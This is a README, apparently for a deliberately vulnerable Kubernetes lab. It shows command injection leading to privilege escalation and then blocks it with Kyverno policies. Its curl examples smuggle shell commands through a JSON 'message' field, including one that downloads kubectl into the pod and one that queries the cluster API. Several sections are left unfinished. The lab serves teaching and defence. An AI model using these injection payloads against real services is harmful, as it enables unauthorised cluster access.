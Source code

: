 # Vulnerable-web-stack-kube

This repository demonstrates how missconfigured services inside Kubernetes can lead to privilegies escalation.

## Usage


```bash
cd vulnerable-web-stack-kube
```

### Launch the cluster
  
```bash
kubectl apply -f ./k8s/resources
```

### Try the vulnerability

Open a shell in the client application and install kubectl

```bash
curl -X POST -H "Content-Type: application/json" -d '{"message":"hello; curl -LO https://dl.k8s.io/release/$(curl -Ls https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl; chmod +x ./kubectl"}' http://server-service:3000/message
```bash
curl -X POST -H "Content-Type: application/json" -d '{"message":"hello; ./kubectl get pods"}' http://server-service:3000/message
```

We can see that the command is executed inside the pod and that we can reach the kube API

### Protect the cluster with kyverno

```bash
kubectl apply -f ./k8s/policies
```

Now ce can't execute command inside the pod

```bash



### Sign and build the docker images

Sign the images with your docker hub account

The server 

```bash
cd ./services/server
docker build -t <your-docker-hub-username>/vulnerable-web-stack-kube-server:latest .
docker trust sign <your-docker-hub-username>/vulnerable-web-stack-kube-server:latest
```
The client

```bash
cd ./services/client
docker build -t <your-docker-hub-username>/vulnerable-web-stack-kube-client:latest .
docker trust sign <your-docker-hub-username>/vulnerable-web-stack-kube-client:latest
```

## Protection

To ensure pods are running with least privileges and avoid escalation, we can use kyverno. 
Kyverno will //

Launch it with 

```bash

```

## Privilegies escalation
```bash
# Install the latest version of kubectl
curl -LO https://dl.k8s.io/release/$(curl -Ls https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl
# Right to the binary
chmod +x ./kubectl
# Move the binary in your PATH
sudo mv ./kubectl /usr/local/bin/kubectl
```

### Licence

This project is licensed under the MIT License - see the LICENSE file for details. 

### Author

Developped in the ☁️ with 🔒 by [GridexX](https://github.com/GridexX)